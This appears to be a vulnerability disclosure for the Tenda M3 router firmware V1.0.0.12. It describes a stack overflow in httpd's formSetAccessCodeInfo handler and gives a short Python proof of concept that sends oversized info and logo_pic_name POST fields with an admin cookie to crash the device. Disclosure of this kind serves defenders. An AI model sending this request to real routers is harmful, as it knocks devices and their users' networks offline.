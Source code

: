 ## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formSetAccessCodeInfo` function, which can be accessed via the URL `goform/setAccessCodeData`

<img src="img/image-20220527170409741.png" alt="image-20220527170409741" style="zoom:50%;" />

`formSetAccessCodeInfo` function gets the POST parameter `info` and `logo_pic_name`and copies to stack buffer without checking its length, causing a stack overflow vulnerability.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"info": b'A'*0x400,
    b"logo_pic_name": b'A'*0x400
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setAccessCodeData", data=data, cookies=cookies)
print(res.content)
```

